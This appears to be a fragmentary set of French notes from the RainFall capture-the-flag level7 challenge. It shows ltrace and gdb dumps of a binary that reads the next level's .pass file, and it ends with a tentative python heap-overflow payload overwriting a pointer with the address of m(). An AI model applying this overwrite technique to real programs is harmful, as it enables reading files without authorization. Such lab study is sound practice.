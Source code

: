 level7@RainFall:~$ ltrace ./level7 12 12
__libc_start_main(0x8048521, 3, 0xbffff6f4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                = 0x0804a008
malloc(8)                                = 0x0804a018
malloc(8)                                = 0x0804a028
malloc(8)                                = 0x0804a038
strcpy(0x0804a018, "12")                 = 0x0804a018
strcpy(0x0804a038, "12")                 = 0x0804a038
fopen("/home/user/level8/.pass", "r")    = 0
fgets( <unfinished ...>

(gdb) x/32wx 0x0804a008
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x00004141      0x00000000      0x00000000      0x00000011
0x804a028:      0x00000002      0x0804a038      0x00000000      0x00000011
0x804a038:      0x00004141      0x00000000      0x00000000      0x00020fc1

Variable gloable : 0x8049960
fgets(var c(globale), n: 68bytes, open(.pass), mode : read)

puts(08048703  data_8048703: ~~.)

(gdb) x/32w $esp
0xbffff610:     0x08049960      0x00000044      0x00000000      0xb7e5ee55
0xbffff620:     0xb7fed280      0x00000000      0x0804a028      0x0804a008
0xbffff630:     0x08048610      0x00000000      0x00000000      0xb7e454d3
0xbffff640:     0x00000003      0xbffff6d4      0xbffff6e4      0xb7fdc858
0xbffff650:     0x00000000      0xbffff61c      0xbffff6e4      0x00000000
0xbffff660:     0x0804825c      0xb7fd0ff4      0x00000000      0x00000000
0xbffff670:     0x00000000      0x0aae8655      0x3deb2245      0x00000000
0xbffff680:     0x00000000      0x00000000      0x00000003      0x08048440

Ecrire de 0x0804a038 a 0x8049960 Non LOL :D

b *main+202

Pour afficher l'instruction actuelle : utilisation du pc

x/x $pc
0x804852a <main+9>:     0x082404c7

======= Memory map: ========
0804a000-0806b000 rwxp 00000000 00:00 0          [heap]

Bon pas trop d'idees, allons analyser l'asm

Ok bon apres quelques heures de reflexion j'en viens a me dire que :

Premier bloc (0x804a008):
- offset 0: valeur 1
- offset 4: pointeur vers buffer1 (0x804a018)

0x804a018:      0x00003231
(gdb) x/s 0x804a018
0x804a018:       "12"

Deuxième bloc (0x804a028):
- offset 0: valeur 2  
- offset 4: pointeur vers buffer2 (0x804a038)

(gdb) x/s 0x0804a038
0x804a038:       "12"

Est ce qu'on ne pourrait pas changer ces adresses pour les faire pointer ailleurs, par exemple sur m() ?

m() 08 04 84 f4
\xf4\x84\x04\x08

Essayons ca

set args $(python -c 'print "A"*20 + "\xf4\x84\x04\x08"') "0"